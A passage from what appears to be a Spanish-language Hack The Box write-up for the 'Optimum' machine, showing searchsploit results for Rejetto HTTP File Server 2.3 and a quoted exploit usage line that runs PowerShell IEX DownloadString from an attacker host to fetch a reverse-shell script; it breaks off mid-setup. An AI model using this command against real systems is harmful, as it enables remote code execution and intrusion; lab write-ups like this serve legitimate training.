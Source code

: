 A continuación, procedemos a buscar un exploit público con el uso de la herramienta `searchsploit`:

```bash
❯ searchsploit HTTP File Server 2.3
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                      | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                      | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                   | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                              | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                              | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                         | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                      | windows/webapps/49125.py
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Para este caso, ocuparemos el archivo *windows/remote/49584.py*, por lo que procedemos a descargarlos a nuestra máquina y observamos su contenido.

```bash
❯ searchsploit -m windows/webapps/49125.py
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /home/kamiyo/Documentos/HTB/Optimum/exploits/49125.py
```

Dentro de los comentarios del script, observamos un ejemplo de uso:

```bash
python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"
```

En donde podemos observar que es necesario las variables *rhost*, *rport*; así como también es necesario compartir un servidor **HTTP** en nuestra máquina de atacante compartiendo un archivo *ps1* para obtener una reverse shell. Por lo tanto, primeramente es necesario identificar el archivo **Invoke-PowerShellTcp.ps1** (el cual debería estar en la ruta `/usr/share/nishang/Shells`); hacemos una copia de dicho archivo en nuestro espacio de trabajo y procedemos a editarlo agregando la siguiente linea hasta el final:
